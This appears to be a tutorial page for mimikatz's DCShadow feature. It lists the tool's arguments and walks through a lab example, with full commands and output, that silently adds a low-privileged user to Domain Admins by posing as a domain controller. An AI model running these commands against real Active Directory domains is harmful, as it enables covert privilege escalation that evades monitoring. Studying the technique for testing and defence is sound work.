 # dcshadow

`lsadump::dcshadow` performs a DCShadow attack.

DCShadow is a feature in [mimikatz](https://github.com/gentilkiwi/mimikatz) located in the [lsadump](https://tools.thehacker.recipes/mimikatz/modules/lsadump) module. It simulates the behavior of a Domain Controller (using protocols like RPC used only by the DCs) to inject its own data, **bypassing most of the common security controls and including many SIEMs**. It shares some similarities with the DCSync attack [`lsadump::dcsync`](dcsync.md). More information for DCShadow can be found on [dcshadow.com](https://www.dcshadow.com/).

**Command Line argument(s) to run as SYSTEM:**

* `/kill`: it is used when you want to delete an object
* `/object`: The Distinguished Name (DN) of the Active Directory object to modify
* `/domain`: the domain to target. The default is the current domain
* `/dc`: the FQDN of the domain controller
* `/attribute`: The name of the [Active Directory Schema attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/attributes-all) to modify
* `/value`: the object's value which is depended on the specified attribute
* `/replOriginatingUsn`: The [Update Sequence Number](https://adsecurity.org/?p=515)
* `/multiple`: an array of values (specifying multiple values)
* `/replOriginatingTime`: As the name instructs the replication originating time. More info can be found at [this](https://premglitz.wordpress.com/2013/03/20/how-the-active-directory-replication-model-works/) guide
* `/replOriginatingUid`: It specifies the UID of the domain controller which performed/requested the change. More info can be found at [this](https://premglitz.wordpress.com/2013/03/20/how-the-active-directory-replication-model-works/) guide

**Command Line Argument(s) to run in push mode as Domain or Enterprise Admin:**

* `/push`: push the changes
* `/stack`: stack the changes and then replicate them all
* `/schema`: The active directory schema partition
* `/config`: The active directory configuration partition
* `/root`: The active directory root
* `/domain`: the domain to target. The default is the current domain
* `/dc`: the FQDN of the domain controller
* `/computer`: The FQDN of the computer to register. The default is the computer on which DCShadow is executed.
* `/viewstack`: View the stack of the changes which are going to be replicated
* `/clearstack`: it clears the stack
* `/manualregister`: it registers the server manually
* `/manualunregister`: It unregisters the server manually
* `/manualpush`: it pushes the changes manually

## Escalate a domain user

In the following example the low privileged user `hacklab.local\optimus` will be added to the "Domain Admins" group:

```
C:\Users>net user optimus /domain
User name                    optimus
Full Name                    optimus prime
Comment                      DCShadow ROCKS
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/31/2021 2:39:23 PM
Password expires             Never
Password changeable          11/1/2021 2:39:23 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/7/2021 3:32:28 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

### Obtain debug privileges

From a command line opened as admin, obtain an `NT AUTHORITY\SYSTEM` privilege.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

724     {0;000003e7} 1 D 43713          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0027cbc0} 2 F 3960324     hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 28479033    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

### Modify the group id

```
mimikatz # lsadump::dcshadow /object=optimus /attribute=primaryGroupID /value=512
** Domain Info **

Domain:         DC=hacklab,DC=local
Configuration:  CN=Configuration,DC=hacklab,DC=local
Schema:         CN=Schema,CN=Configuration,DC=hacklab,DC=local
dsServiceName:  ,CN=Servers,CN=hacklab-site,CN=Sites,CN=Configuration,DC=hacklab,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 80938

** Server Info **

Server: DC.hacklab.local
  InstanceId  : {34cb3b05-57f5-4699-b037-5795637d46bf}
  InvocationId: {34cb3b05-57f5-4699-b037-5795637d46bf}
Fake Server (not already registered): Win10.hacklab.local

** Attributes checking **

#0: primaryGroupID

** Objects **

#0: optimus
DN:CN=optimus prime,CN=Users,DC=hacklab,DC=local
  primaryGroupID (1.2.840.113556.1.4.98-90062 rev 1):
    512
    (00020000)


** Starting server **

 > BindString[0]: ncacn_ip_tcp:Win10[53586]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {9901d757-a63d-478f-a96a-f8be1a8308ac}
  pNC->Sid : S-1-5-21-2725560159-1428537199-2260736313
  pNC->Name: DC=hacklab,DC=local
SessionKey: c6aba9b6a2391d12b5f5b9b8c7cbf8d3cf0070202997d47aff1f96004638b815
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```

### Push the changes

To push the changes a second CMD with Domain or Enterprise Admin privileges must be opened:

```
mimikatz # lsadump::dcshadow /push
** Domain Info **

Domain:         DC=hacklab,DC=local
Configuration:  CN=Configuration,DC=hacklab,DC=local
Schema:         CN=Schema,CN=Configuration,DC=hacklab,DC=local
dsServiceName:  ,CN=Servers,CN=hacklab-site,CN=Sites,CN=Configuration,DC=hacklab,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 80939

** Server Info **

Server: DC.hacklab.local
  InstanceId  : {34cb3b05-57f5-4699-b037-5795637d46bf}
  InvocationId: {34cb3b05-57f5-4699-b037-5795637d46bf}
Fake Server (not already registered): Win10.hacklab.local

** Performing Registration **

** Performing Push **

Syncing DC=hacklab,DC=local
Sync Done

** Performing Unregistration **
```

After the successful pushing the user is now part of the "Domain Admins":

```
C:\Users\Administrator\Desktop\x64>net user optimus /domain
User name                    optimus
Full Name                    optimus prime
Comment                      DCShadow ROCKS
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/31/2021 2:39:23 PM
Password expires             Never
Password changeable          11/1/2021 2:39:23 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/7/2021 3:32:28 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins
The command completed successfully.
```
